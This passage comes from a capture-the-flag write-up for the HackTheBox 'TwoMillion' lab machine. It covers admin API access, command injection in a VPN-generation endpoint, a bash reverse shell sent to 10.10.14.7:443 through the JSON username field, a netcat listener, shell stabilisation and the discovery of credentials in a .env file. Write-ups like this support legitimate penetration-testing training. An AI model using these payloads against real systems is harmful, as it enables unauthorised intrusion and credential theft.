 We confirm our user is now admin:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=..." | jq
```

![[test_user_is admin.png]]

---
## 5. Command Injection

With admin rights, we attempt VPN generation again:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test"}' -v
```

![[post_vpn_generated.png]]

Testing command injection with metacharacters (`;`, `#`) confirms that code execution is possible

![[post_executing_commands.png]]  

We exploit it with a reverse shell:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test; bash -c \"bash -i >& /dev/tcp/10.10.14.7/443 0>&1\";"}'
```

On our listener:

```bash
nc -nlvp 443
```

![[sending_a_bash.png]]

We successfully obtain a shell.

---
## 6. Post-Exploitation

Stabilize the shell:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We enumerate files and discover credentials inside `.env`:
